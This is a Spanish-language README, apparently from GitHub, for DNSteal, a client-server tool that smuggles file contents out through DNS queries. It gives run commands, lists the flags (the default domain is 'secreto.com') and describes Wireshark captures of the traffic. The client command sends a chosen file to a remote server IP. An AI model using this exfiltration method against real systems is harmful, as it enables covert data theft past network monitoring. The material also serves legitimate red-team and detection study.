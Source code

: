 # DNSteal

## Uso

#### 💻 Ejecutar el programa

* **Server**

```bash
python3 DNS_Server.py
```

<img src="/media/Server.png" width="300" title="use example">

* **Client**

```bash
python3 DNS_Client.py -s Server_IP -f File
```

<img src="./media/Client.png" width="300" title="use example">

### 🚩 Flags del Programa

* **Server**

```bash
-s / --server: [Opcional] IP que quieras para el servidor. Predet = 0.0.0.0
-d / --domain: [Opcional] Dominio que desea utilizar. Predet = secreto.com.
-i / --ip: [Opcional] IP de respuesta falsa. Predet = 127.0.0.1
-p / --port: [Opcional] Puerto que desea utilizar. Predet = 53
```
* **Client**

```bash
-s / --server: [Requerido] IP a la que desea conectarse
-f / --file: [Requerido] Archivo que contiene el mensaje
-t / --time: [Opcional] Tiempo que las solicitudes esperan una respuesta del servidor. Predet = 5
-d / --domain: [Opcional] Dominio que desea utilizar. Predet = secreto.com.
```

### :movie_camera: Demostración de Uso

https://user-images.githubusercontent.com/35707527/210063728-522d5e92-1198-4cfb-9cf6-34a1e27cd88e.mp4

### :mailbox_with_mail: Paquetes de Wireshark

Se puede ver en el paquete el subdominio, el dominio y el tipo de registro DNS, el A

<img src="./media/Packet_Wireshark.png" width="1000" title="use example">

Y cuando inspeccionamos mas de cerca los paquetes podemos ver el puerto que hemos configurado para la peticion y la IP del servidor que hemos determinado con el argumento -s

<img src="./media/Packet.png" width="1000" title="use example">
